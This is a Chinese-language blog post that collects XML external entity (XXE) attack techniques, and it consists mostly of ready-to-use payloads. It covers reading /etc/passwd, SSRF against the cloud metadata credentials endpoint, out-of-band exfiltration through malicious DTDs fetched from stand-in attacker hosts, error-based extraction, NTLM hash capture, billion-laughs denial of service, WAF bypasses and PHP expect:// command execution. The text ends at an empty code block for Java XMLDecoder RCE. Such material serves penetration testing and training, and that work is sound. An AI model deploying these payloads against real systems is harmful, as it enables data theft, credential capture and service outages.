

## XML外部实体注入（XXE）攻击方式汇总

- - -

> 关于 XXE 攻击方式汇总的相应靶场通关记录已经完成，靶场使用的是 Port Swigger 靶场，若有需要，欢迎师傅们前往学习，Github地址：[XXE 靶场通关笔记](https://github.com/shungli923/WowBigBug/blob/main/%E9%9D%B6%E5%9C%BA%E6%94%BB%E7%95%A5/XXE%20PortSwigger%E9%9D%B6%E5%9C%BA%E9%80%9A%E5%85%B3%E7%AC%94%E8%AE%B0.md)

## [XML 基础](#toc_xml)

XML外部实体攻击是针对解析XML输入的应用程序的一种攻击。

### [什么是 XML ？](#toc_xml_1)

XML （extensible markup language）意思是“可扩展标记语言”。XML是一种用于存储和传输数据的语言。与HTML一样，XML使用标签和数据的树状结构。与HTML不同，XML不使用预定义的标记，因此可以为标记指定描述数据的名称。在早期 Web 时代，XML作为一种数据传输格式（ `AJAX` 中的 `X` 代表的就是 `XML` ）很流行。但它的受欢迎程度现在已经下降，转而支持JSON格式。

### [什么是XML实体？](#toc_xml_2)

`XML实体`是在`XML`文档中表示数据项的一种方式，而不是使用数据本身。各种实体内置于`XML`语言的规范中。例如，实体`&lt；`并且`&gt；`表示字符<和`>`。这些是用于表示`XML`标记的元字符，因此当它们出现在数据中时，通常必须使用它们的实体来表示。

### [什么是XML元素？](#toc_xml_3)

元素类型声明为`XML`文档中可能出现的元素的类型和数量、元素之间可能出现的内容以及它们必须出现的顺序设置了规则。例如：

-   `<!ELEMENT stockCheck ANY>`表示任何对象都可以在父级`<stockCheck></stockCheck>`内
-   `<!ELEMENT stockCheck EMPTY>`表示它应该为空`<stockCheck></stockCheck>`
-   `<!ELEMENT stockCheck(productId，storeId)>`声明`<stockCheck>`可以有子级`<productId>`和`<storeId>`

### [什么是文档类型定义？](#toc_)

XML文档类型定义（DTD）包含可以定义XML文档结构、它可以包含的数据值类型以及其他项的声明。DTD在XML文档开头的可选DOCTYPE元素中声明。DTD可以完全独立于文档本身（称为“内部DTD”），也可以从其他地方加载（称为外部DTD），或者可以是两者的混合。

### [什么是XML自定义实体？](#toc_xml_4)

XML允许在DTD中定义自定义实体。例如：

```plain
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```

此定义意味着在使用中对实体 &myentity 的任何引用，在XML文档中的值都将替换为：my entity value

### [什么是XML外部实体？](#toc_xml_5)

XML外部实体是一种自定义实体，其定义位于声明它们的DTD之外。

外部实体的声明需要使用SYSTEM关键字，并且必须指定URL然后从中该URL中加载实体值。例如：

```plain
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```

URL可以使用 file:// 协议，因此也可以从文件加载外部实体。例如：

```plain
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

XML外部实体是引发XML外部实体攻击的主要手段。

### [什么是XML参数实体？](#toc_xml_6)

有时，由于应用程序的某些输入验证或正在使用的XML解析器的某些加强，导致使用常规实体的XXE攻击会被阻止。在这种情况下，您可以改用XML参数实体。XML参数实体是一种特殊的XML实体，只能在DTD中的其他地方引用。

声明XML参数实体有两个明显的特征：

首先，实体名称前使用是的百分号：

```plain
<!ENTITY % myparameterentity "my parameter entity value" >
```

其次，实体参数在引用时使用的是%符号而不是&符号：

```plain
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
```

这意味着可以通过XML参数实体使用带外检测来测试 blind XXE，如下所示：

```plain
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
```

这个XXE 的 payload 声明了一个名为xxe的XML参数实体，然后在DTD中使用该实体。这将导致对攻击者的域进行DNS查找和HTTP请求来判断攻击是否成功。

## [主要利用方式](#toc__1)

### [读文件](#toc__2)

现在已不同方式读取`/etc/passwd`文件，如果是Windows主机可以读取：C:\\windows\\system32\\drivers\\etc\\hosts文件

第一：直接读取，也可以通过file协议进行读取

```plain
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

[](https://storage.tttang.com/media/attachment/2022/11/14/94e0ae3b-85f7-489e-bdc9-c4a9da38e190.png)

第二：如果目标服务器使用的是PHP环境，可以使用：

```plain
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

第三：将元素类别声明为 ANY：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT stockCheck ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>&file;</productId>
    <storeId>1</storeId>
</stockCheck3>
```

[](https://storage.tttang.com/media/attachment/2022/11/14/bc868fbc-b687-4036-8d21-cade57b23fa5.png)

### [读取目录](#toc__3)

在java的应用程序中，可以通过XXE列出目录的内容，payload如下：

```plain
<!-- Root / -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE aa[<!ELEMENT bb ANY><!ENTITY xxe SYSTEM "file:///">]><root><foo>&xxe;</foo></root>

<!-- /etc/ -->
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY xxe SYSTEM "file:///etc/" >]><root><foo>&xxe;</foo></root>
```

### [SSRF](#toc_ssrf)

通过XXE进行SSRF攻击，payload如下：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### [Blind SSRF](#toc_blind-ssrf)

当外部实体不能使用时，也许可以试试XML参数实体，payload如下：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

### [Blind SSRF 带出敏感数据](#toc_blind-ssrf_1)

在这种情况下，让服务器加载一个带有恶意负载的新DTD，该恶意负载将通过HTTP请求发送文件的内容（对于多行文件，您可以尝试通过ftp://对其进行过滤）。

恶意DTD拿到 /etc/hostname 文件内容的示例如下：

```plain
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

该DTD执行以下步骤：

-   定义一个名为file的XML参数实体，包含 /etc/passwd 文件的内容。
-   定义一个名为eval的XML参数实体，其中包含另一个XML参数实体exfiltrate的动态声明。通过向攻击者的web服务器发出包含URL查询字符串中“file”实体值的HTTP请求来操作exfiltrate实体。
-   使用eval实体，这将导致执行exfilter实体的动态声明。
-   使用exfiltrate实体，通过请求得到指定的URL的内容。

然后，攻击者必须在他们控制的系统上托管恶意DTD，通常是将其加载到自己的Web服务器上。例如，攻击者可能通过以下URL为恶意DTD提供服务：[http://web-attacker.com/malicious.dtd](http://web-attacker.com/malicious.dtd)

最后，攻击者必须向易受攻击的应用程序提交以下XXE负载：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

这个XXE的payload声明了一个名为XXE的XML参数实体，然后在DTD中使用该实体。这将导致XML解析器从攻击者的服务器获取外部DTD，并对其进行内联解释。然后执行恶意DTD中定义的步骤，并将/etc/passwd文件传输到攻击者的服务器。

### [Error Based XXE(外部实体)](#toc_error-based-xxe)

这种情况出现于我们将使服务器加载一个恶意DTD，该DTD将在错误消息中显示文件的内容（只有可以看到错误消息时，这才有效）。

有时候可以使用恶意外部DTD触发包含/etc/passwd文件内容的XML解析错误消息，如下所示：

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

该DTD执行以下步骤：

-   定义一个名为file的XML参数实体，包含/etc/passwd文件的内容。
-   定义一个名为eval的XML参数实体，其中包含另一个称为error的XML参数的动态声明。将通过加载一个名称包含文件实体值的不存在的文件来获得错误实体内容。
-   使用eval实体，这将导致执行error实体。
-   通过执行error实体，以便通过尝试加载不存在的文件来带出目标文件的值，从而生成包含不存在文件的名称的错误消息，该文件是/etc/passwd文件的内容。

使用以下命令调用：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

将会看到web服务器响应的错误消息中文件的内容：

[](https://storage.tttang.com/media/attachment/2022/11/14/4a0f391d-8c07-4236-9c00-c4664d859317.png)

需要注意的是，外部DTD允许我们在第二个（eval）中包含一个实体，但在内部DTD中是禁止的。因此，通常如果不使用外部DTD，就无法触发Error Based XXE。

### [Error Based (系统实体)](#toc_error-based)

这种情况适用于是Blind SSRF，同时上述方式不生效时。

原理是利用XML语言规范中的漏洞触发包含敏感数据的错误消息。如果文档的DTD同时存在内部和外部DTD声明，那么内部DTD可以重新定义在外部DTD中声明的实体。当这种情况发生时，在另一个参数实体的定义中使用XML参数实体的限制将被放宽。

这意味着攻击者可以在内部DTD中使用error-based XXE技术，前提是他们使用的XML参数实体正在重新定义外部DTD中声明的实体。当然，如果带外连接被阻止，则无法从远程位置加载外部DTD。所以，它需要是应用程序服务器本地的外部DTD文件。本质上，该攻击就是操作存在于本地文件系统上的DTD文件，重新调整其用途，以触发包含敏感数据的解析错误的方式重新定义现有实体。

例如，假设服务器文件系统上的位置/usr/local/app/schema处有一个DTD文件。dtd，该dtd文件定义了一个名为custom\_entity的实体。攻击者可以通过提交如下混合DTD来触发包含/etc/passwd文件内容的XML解析错误消息：

```plain
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
```

在上述代码的执行过程中发生了以下事情：

-   定义一个名为local\_dtd的XML参数实体，其中包含服务器文件系统上已存在的外部dtd文件的内容。
-   重新定义名为custom\_entity的XML参数实体，该实体已在外部DTD文件中定义。实体被重新定义为包含已描述的，用于触发包含/etc/passwd文件内容的错误消息。
-   由于local\_dtd实体的使用，外部dtd被覆盖，包括custom\_entity实体的新值。这将产生所需的错误消息。  
    （实际上，使用有GNOME桌面环境的系统通常在/usr/share/yelp/DTD/docbookx.dtd文件里面有一个名为ISOamso的实体。）

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

[](https://storage.tttang.com/media/attachment/2022/11/14/5590258d-8eed-42d4-b9ae-c9a712deab6a.png)

由于此技术使用了内部的DTD，您需要首先找到一个可以用的DTD。可以试试安装一个一样的操作系统和相关软件来浮现上面这个过程。

### [Office Open XML解析器实现 XXE](#toc_office-open-xml-xxe)

许多web应用程序允许您上载Microsoft Office文档，然后从中解析一些详细信息。例如，您可能有一个web应用程序，允许您通过上传XLSX格式的电子表格来导入数据。有时，为了让解析器从电子表格中提取数据，解析器需要解析至少一个XML文件。

对此进行测试的方法是生成一个包含XXE payload的Microsoft Office文件，实现的步骤很简单。首先，创建一个空目录来解压缩文档，然后解压缩！

```plain
test$ ls
test.docx
test$ mkdir unzipped
test$ unzip ./test.docx -d ./unzipped/
Archive:  ./test.docx
  inflating: ./unzipped/word/numbering.xml
  inflating: ./unzipped/word/settings.xml
  inflating: ./unzipped/word/fontTable.xml
  inflating: ./unzipped/word/styles.xml
  inflating: ./unzipped/word/document.xml
  inflating: ./unzipped/word/_rels/document.xml.rels
  inflating: ./unzipped/_rels/.rels
  inflating: ./unzipped/word/theme/theme1.xml
  inflating: ./unzipped/[Content_Types].xml
```

打开./unzipped/word/document.xml，并将该相关 payload 写入 XML 文件中。我首先尝试的是HTTP请求，如下所示：

```plain
<!DOCTYPE x [ <!ENTITY test SYSTEM "http://[ID].burpcollaborator.net/"> ]>
<x>&test;</x>
```

这些行应该插入到两个根XML对象之间，如下图所示：

[](https://storage.tttang.com/media/attachment/2022/11/14/249e9fe6-1ab9-4897-a513-99ee4cddf9c6.png)

剩下的就是压缩文件以创建恶意的 poc.docx 文件。从我们之前创建的“解压缩”目录中，运行以下命令：

[](https://storage.tttang.com/media/attachment/2022/11/14/a97eb7ca-6923-46d0-8a2e-6beb61e2dd68.png)

现在上传该恶意文件然后在相关平台中查看是否有相关请求触发。

### [Jar: 协议](#toc_jar)

Jar协议只能在Java的应用程序中触发，它允许访问PKZIP（.zip，.jar）中的文件，并且适用于本地或者远程文件。

利用方式：

```plain
jar:file:///var/myarchive.zip!/file.txt
jar:https://download.host.com/myarchive.zip!/file.txt
```

**运行过程中：**

-   发送一个 http 请求（[https://download.host.com/myarchive.zip](https://download.host.com/myarchive.zip)）加载一个ZiP文档。
-   将Response包保存在本地临时文件/tmp目录下。
-   提取文档内容
-   读取file.zip
-   删除保存在 /tmp 目录下的文件

需要注意的是整个过程极有可能在第二步中止，关键是操作文件的过程不能中断，这个[Github仓库](https://github.com/GoSecure/xxe-workshop/tree/master/24_write_xxe/solution)可以起到很好的帮助作用。

一旦服务器下载了您的文件，您需要通过浏览临时目录找到它的位置。由于文件路径是随机的，因此无法提前预测。

[](https://storage.tttang.com/media/attachment/2022/11/14/bbbffa69-b067-478d-be81-ecdbbe7345d9.png)

在临时目录中写入文件有助于升级另一个涉及路径遍历的漏洞（例如本地文件包含、模板注入、XSLT RCE、反序列化等）。

### [XSS](#toc_xss)

```plain
<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>
```

### [DoS](#toc_dos)

#### [Billion Laugh Attack](#toc_billion-laugh-attack)

a billion laughs attack 是一种 denial-of-service（DoS）攻击，它主要作用于 XML 文档解析器。它也被称为指数实体扩展攻击，是一种名副其实的XML炸弹。该攻击通过创建一系列递归的XML定义，在内存中产生上十亿的特定字符串，从而导致DoS攻击。

原理为：构造恶意的XML实体文件以耗尽服务器可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，上亿的特定字符串占用内存达到GB级，使得解析器解析非常慢，并使得可用资源耗尽，从而造成拒绝服务攻击。

```plain
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

如以上代码所示，在XMl中定义了一个实体 lol9，它的值包含了十个实体 lol8 的值，而每个 lol8 又包含了十个 lol7 的值...最后产生10亿个“lol”字符串，占用内存约高达3GB。

#### [Yaml Attack](#toc_yaml-attack)

```plain
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

#### [Quadratic Blowup Attack](#toc_quadratic-blowup-attack)

[](https://storage.tttang.com/media/attachment/2022/11/14/6a0cc729-4ae0-4f10-a72c-95220d27957d.png)

#### [获取 NTML](#toc_ntml)

在Windows主机上，可以通过设置响应程序来获取web服务器用户的NTML哈希。py处理程序：

```plain
Responder.py -I eth0 -v
```

然后发送以下请求：

```plain
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM 'file://///attackerIp//randomDir/random.jpg'> ]>
<data>&example;</data>
```

接着便可以尝试使用 hashcat 破解哈希

### [Hidden XXE Surfaces](#toc_hidden-xxe-surfaces)

#### [XInclude](#toc_xinclude)

一些应用程序接收客户端提交的数据，在服务器端将其嵌入到XML文档中，然后解析该文档。当客户端提交的数据被放置到后端SOAP请求中，然后由后端SOAP服务处理时，就会出现这种情况。

在这种情况下，你不能进行经典的XXE攻击，因为您无法控制整个XML文档，因此无法定义或修改DOCTYPE元素。但是，或许可以改用XInclude。XInclude是XML规范的一部分，它允许从子文档构建XML文档。您可以在XML文档中的任何数据值中进行XInclude攻击，因此，在只控制放入服务器端XML文档中的单个数据项的情况下，可以执行攻击。

要执行XInclude攻击，您需要引用XInclute命名空间并提供要包含的文件的路径。例如：

```plain
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

#### [SVG - File Upload](#toc_svg-file-upload)

一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用XML或包含XML子组件。基于XML的格式有DOCX等办公文档格式和SVG等图像格式。

例如，应用程序可能允许用户上传图像，并在上传后在服务器上处理或验证这些图像。即使应用程序希望接收PNG或JPEG等格式，正在使用的图像处理库也可能支持SVG图像。由于SVG格式使用XML，所以攻击者可以提交恶意SVG图像，从而进行XXE攻击。

```plain
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```

您还可以尝试使用PHP “expect”包装器执行命令：

```plain
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

需要注意的是，读取文件或执行结果的第一行将出现在创建的图像内。因此，您需要能够访问SVG创建的图像。

#### [PDF - File upload](#toc_pdf-file-upload)

Reader中的Javascript函数可用于从外部实体读取数据 (CVE-2014-8452)

这时从一篇论文（Polyglots: Crossing Origins by Crossing Formats）中得到的方法，论文里讨论了`XMLData.parse`的一个漏洞，可以使用外部实体并引用它们。

[](https://storage.tttang.com/media/attachment/2022/11/14/eb11d7b6-ddd5-4c98-8943-d0e7694ab00e.png)

影响有限，有以下原因：

-   仅限于同一 Origin
-   HTML页面能打破xml结构
-   不支持动态实体
-   我曾想过使用utf-16 xml来避免破坏xml结构，但我没有成功。

但至少能读取到J JSON 文件。

#### [Content-Type: From x-www-urlencoded to XML](#toc_content-type-from-x-www-urlencoded-to-xml)

如果 POST 请求接受XML格式的数据，您可以尝试利用该请求中的XXE。例如，如果正常请求包含以下内容：

```plain
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

然后您可以提交以下请求，结果相同：

```plain
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

#### [Content-Type: From JSON to XEE](#toc_content-type-from-json-to-xee)

这个地方需要更改请求，可以使用名为“Content Type Converter”的Burp 插件。例如：

```plain
Content-Type: application/json;charset=UTF-8

{"root": {"root": {
  "firstName": "Avinash",
  "lastName": "",
  "country": "United States",
  "city": "ddd",
  "postalCode": "ddd"
}}}
```

可通过插件转换成：

```plain
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

### [WAF & Protections Bypasses](#toc_waf-protections-bypasses)

#### [Base64](#toc_base64)

```plain
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

该 payload 只有当XML服务器接受 data://协议是才会生效

#### [**UTF-7**](#toc_utf-7)

```plain
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<stockCheck><productId>&example;</productId><storeId>1</storeId></stockCheck>-
```

当使用UTF-7编码时：

```plain
<!xml version="1.0" encoding="UTF-7"?-->
+ADw-+ACE-DOCTYPE+ACA-foo+ACA-+AFs-+ADw-+ACE-ENTITY+ACA-example+ACA-SYSTEM+ACA-+ACI-/etc/passwd+ACI-+AD4-+ACA-+AF0-+AD4-+AAo-+ADw-stockCheck+AD4-+ADw-productId+AD4-+ACY-example+ADs-+ADw-/productId+AD4-+ADw-storeId+AD4-1+ADw-/storeId+AD4-+ADw-/stockCheck+AD4-
```

#### [File:/ Protocol Bypass](#toc_file-protocol-bypass)

如果目标网页使用的是 PHP，可以使用php包装器 `php://filter/convert.base64-encode/resource=` 来访问内部文件而不需要再使用 file:/ 协议。

如果是 Java 的网页，可以使用 `jar:protocol`。

#### [HTML 实体](#toc_html)

您可以在用html实体编码的实体内创建一个实体，然后调用它来加载dtd。  
请注意，使用的HTML实体需要是数字

```plain
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x25;&#x64;&#x74;&#x64;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x3E;" >%a;%dtd;]>
<data>
    <env>&exfil;</env>
</data>
```

DTD 示例：

```plain
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://172.17.0.1:7878/bypass.xml?%data;'>">
%abt;
%exfil;
```

### [PHP Wrappers](#toc_php-wrappers)

#### [Base64](#toc_base64_1)

##### [提取 index.php：](#toc_indexphp)

```plain
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```

##### [提取外部资源：](#toc__4)

```plain
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3">]>
```

#### [远程代码执行](#toc__5)

如果 PHP 的 expect 模块被加载了

```plain
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

### [SOAP - XEE](#toc_soap-xee)

```plain
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

### [XLIFF - XXE](#toc_xliff-xxe)

XLIFF（XML Localization Interchange File Format，XML本地化交换文件格式）是一种基于XML的位文本格式，用于标准化本地化过程中可本地化数据在工具之间传递的方式，也是CAT工具交换的通用格式。

#### [Blind request](#toc_blind-request)

```plain
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://redacted.burpcollaborator.net/?xxe_test"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```

服务器响应时出错：

```plain
{"status":500,"error":"Internal Server Error","message":"Error systemId: http://redacted.burpcollaborator.net/?xxe_test; The markup declarations contained or pointed to by the document type declaration must be well-formed."}
```

#### [Exfiltrating Data via Out of Band](#toc_exfiltrating-data-via-out-of-band)

```plain
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```

#### [Exfiltrating Data via Error Based](#toc_exfiltrating-data-via-error-based)

DTD文件：

```plain
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/'>">
%foo;
%xxe;
```

服务器响应：

```plain
{"status":500,"error":"Internal Server Error","message":"IO error.\nReason: /nofile (No such file or directory)"}
```

好消息是当请求一个不存在的文件时会将反映在错误消息中。接下来是添加文件内容。

DTD File:

```plain
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/%data;'>">
%foo;
%xxe;
```

通过HTTP发送的错误输出中成功打印了文件的内容。

### [RSS - XEE](#toc_rss-xee)

使用RSS格式的XML也可利用出 XXE 的漏洞

#### [Ping back](#toc_ping-back)

对攻击者服务器发起简单的HTTP请求：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "http://<AttackIP>/rssXXE" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>XXE Test Blog</title>
<link>http://example.com/</link>
<description>XXE Test Blog</description>
<lastBuildDate>Mon, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>Test Post</description>
<author>author@example.com</author>
<pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

#### [Read file](#toc_read-file)

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

#### [Read source code](#toc_read-source-code)

使用 PHP base64 过滤器

```plain
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///challenge/web-serveur/ch29/index.php" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

### [Java XMLDecoder XEE to RCE](#toc_java-xmldecoder-xee-to-rce)

XMLDecoder是一个基于XML消息创建对象的Java类。如果恶意用户可以通过应用程序能在readObject函数的调用中执行任意数据，就可以在服务器上进行代码执行。

#### [Using Runtime().exec()](#toc_using-runtimeexec)

```plain
